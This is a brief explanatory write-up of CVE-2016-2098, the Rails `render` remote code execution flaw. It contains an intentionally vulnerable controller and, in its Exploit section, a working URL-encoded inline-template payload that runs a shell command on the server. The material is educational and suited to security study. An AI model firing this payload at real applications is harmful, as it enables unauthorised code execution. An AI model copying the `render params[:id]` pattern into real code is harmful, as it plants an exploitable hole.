 # CVE-2016-2098 / Rails RCE

This vulnerability is caused by calling the method `render` on user-supplied data. This issue can be used to gain code execution.

### Issue

The following code illustrates the problem:

```ruby
class TestController < ApplicationController
  def show
    render params[:id]
  end
end
```

The method `render` is usually used to render a page from a template like in the following code:

```ruby
class TestController < ApplicationController
  def show
    render 'show'
  end
```

The `render` method also allows developers to render plain text (`plaintext`) and even inline code (`inline`).

### Exploit

Instead of sending a simple parameter `id=test`, you can build your request to send a hash: `id[inline]=RUBYTEMPLATE`. To gain code execution, you just need to find the right value for `RUBYTEMPLATE` to exec commands. Here you will need to be extra careful with the encoding to get it to work.

we get parameter `?id=test`

replace it with ``id[inline]=<%= `id` %>``

type it in url encoding `id[inline]=<%25%3D%60id%60%25>`